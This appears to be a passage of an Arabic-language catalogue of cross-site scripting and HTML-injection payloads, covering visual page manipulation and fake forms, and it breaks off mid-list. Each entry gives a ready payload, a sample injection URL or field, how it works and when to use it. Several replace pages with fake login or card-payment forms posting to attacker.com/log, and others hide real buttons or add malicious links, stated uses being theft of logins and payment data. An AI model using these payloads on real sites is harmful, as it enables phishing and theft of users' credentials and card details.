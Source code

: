 #### الشرح العملي :
#### ب. التلاعب بالعناصر البصرية
تغيير مظهر الصفحة لخداع المستخدم.
- **الحقن**: `<script>document.body.innerHTML='<h1>خطأ: الرجاء تسجيل الدخول مجددًا</h1><form action="http://attacker.com/log"><input type="text" name="username"><input type="password" name="password"><input type="submit"></form>'</script>`
  - **الإدخال**: `https://example.com/?search=<script>document.body.innerHTML='<h1>خطأ: الرجاء تسجيل الدخول مجددًا</h1><form action="http://attacker.com/log"><input type="text" name="username"><input type="password" name="password"><input type="submit"></form>'</script>`
  - **كيف يعمل**: يستبدل محتوى الصفحة بنموذج تسجيل دخول مزيف.
  - **متى يُستخدم؟**: لسرقة بيانات تسجيل الدخول.
- **الحقن**: `<script>document.getElementById('login-btn').style.display='none';document.body.innerHTML+='<button onclick="fetch(\'http://attacker.com/log\')">تسجيل الدخول</button>'</script>`
  - **الإدخال**: أدخل في نموذج: `<script>document.getElementById('login-btn').style.display='none';document.body.innerHTML+='<button onclick="fetch(\'http://attacker.com/log\')">تسجيل الدخول</button>'</script>`
  - **كيف يعمل**: يخفي زر تسجيل الدخول الأصلي ويضيف زرًا ضارًا.
  - **متى يُستخدم؟**: لاستبدال عناصر شرعية.
- **الحقن**: `<style>body { background: white; } #content { display: none; } .fake { position: fixed; top: 0; left: 0; width: 100%; height: 100%; }</style><div class="fake">صفحة تسجيل الدخول</div>`
  - **الإدخال**: `https://example.com/#<style>body { background: white; } #content { display: none; } .fake { position: fixed; top: 0; left: 0; width: 100%; height: 100%; }</style><div class="fake">صفحة تسجيل الدخول</div>`
  - **كيف يعمل**: يغطي الصفحة بواجهة مزيفة.
  - **متى يُستخدم؟**: لمحاكاة صفحة شرعية.
- **الحقن**: `<script>document.querySelector('.notification').innerHTML='تم تسجيل الخروج. <a href="http://attacker.com">تسجيل الدخول</a>'</script>`
  - **الإدخال**: أدخل في حقل: `<script>document.querySelector('.notification').innerHTML='تم تسجيل الخروج. <a href="http://attacker.com">تسجيل الدخول</a>'</script>`
  - **كيف يعمل**: يعدل إشعارًا لخداع المستخدم.
  - **متى يُستخدم؟**: لإضافة روابط ضارة.
- **الحقن**: `<script>document.body.style.opacity='0.5';document.body.innerHTML+='<div style="position:fixed;top:0;left:0">تحديث الموقع...</div>'</script>`
  - **الإدخال**: `https://example.com/?search=<script>document.body.style.opacity='0.5';document.body.innerHTML+='<div style="position:fixed;top:0;left:0">تحديث الموقع...</div>'</script>`
  - **كيف يعمل**: يجعل الصفحة باهتة ويضيف رسالة مضللة.
  - **متى يُستخدم؟**: لإيهام المستخدم بأن الموقع قيد الصيانة.
#### الشرح العملي :


#### ج. تزييف النماذج
إنشاء نماذج مزيفة لسرقة البيانات.
- **الحقن**: `<form action="http://attacker.com/log"><input type="text" name="username" placeholder="اسم المستخدم"><input type="password" name="password" placeholder="كلمة المرور"><input type="submit" value="تسجيل الدخول"></form>`
  - **الإدخال**: أدخل في تعليق: `<form action="http://attacker.com/log"><input type="text" name="username" placeholder="اسم المستخدم"><input type="password" name="password" placeholder="كلمة المرور"><input type="submit" value="تسجيل الدخول"></form>`
  - **كيف يعمل**: يرسل بيانات تسجيل الدخول إلى خادم المهاجم.
  - **متى يُستخدم؟**: لسرقة بيانات المستخدم.
- **الحقن**: `<script>document.body.innerHTML='<form action="http://attacker.com/log"><input type="text" name="card" placeholder="رقم البطاقة"><input type="submit" value="إرسال"></form>'</script>`
  - **الإدخال**: `https://example.com/?search=<script>document.body.innerHTML='<form action="http://attacker.com/log"><input type="text" name="card" placeholder="رقم البطاقة"><input type="submit" value="إرسال"></form>'</script>`
  - **كيف يعمل**: يحل محل الصفحة بنموذج دفع مزيف.
  - **متى يُستخدم؟**: لسرقة بيانات الدفع.
- **الحقن**: `<div style="position:absolute;top:100px;left:100px"><form action="http://attacker.com/log"><input type="email" name="email"><input type="submit" value="تحديث البريد"></form></div>`
  - **الإدخال**: أدخل في نموذج: `<div style="position:absolute;top:100px;left:100px"><form action="http://attacker.com/log"><input type="email" name="email"><input type="submit" value="تحديث البريد"></form></div>`
  - **كيف يعمل**: يضيف نموذجًا مزيفًا لتحديث البريد الإلكتروني.